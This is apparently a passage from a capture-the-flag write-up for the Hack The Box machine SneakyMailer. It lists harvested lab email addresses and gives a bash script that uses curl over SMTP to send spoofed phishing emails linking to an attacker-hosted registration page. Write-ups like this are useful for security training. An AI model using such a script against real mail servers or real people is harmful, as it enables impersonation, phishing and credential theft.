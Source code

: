 ```
laelgreer@sneakymailer.htb
jonasalexander@sneakymailer.htb
shaddecker@sneakymailer.htb
sulcud@sneakymailer.htb
donnasnider@sneakymailer.htb
```

The email domain is `sneakymailer.htb`. I'd better include it in `/etc/hosts` as well.

### Missing Registration Page

There's a comment in the HTML source code that points to the registration page.

{% include image.html image_alt="6963e72d.png" image_src="/f6d69e00-f868-46b9-95db-9ecf8f2ea495/6963e72d.png" %}

Here's what the registration page looks like.

{% include image.html image_alt="2124b042.png" image_src="/f6d69e00-f868-46b9-95db-9ecf8f2ea495/2124b042.png" %}

If I'd to guess and going by the information that work has been allocated and someone is supposed to check their inbox for instructions how to register, I'd say that this is some kind of client-side attack, i.e. send a phishing email to bait someone to register.

### Phishing Attack

Since I have 57 email addresses to phish, I need an efficient way to spam. With that in mind, I wrote a simple `bash` script, driven by `curl`. Yes, `curl` can send email too!

<div class="filename"><span>send.sh</span></div>

```bash
#!/bin/bash

HOST=sneakymailer.htb
TEMP=$(mktemp -u)
RCPT=$1

cat <<EOF >> $TEMP
From: sulcud@sneakymailer.htb
To: $RCPT
Subject: Urgent - PyPI Registration
Date: `date`

http://10.10.16.23/register.php

Regards,
Biggus Dickus

EOF

curl -s "smtp://$HOST" --mail-from "sulcud@sneakymailer.htb" --mail-rcpt "$RCPT" --upload-file "$TEMP"

# clean up
rm -rf $TEMP
```
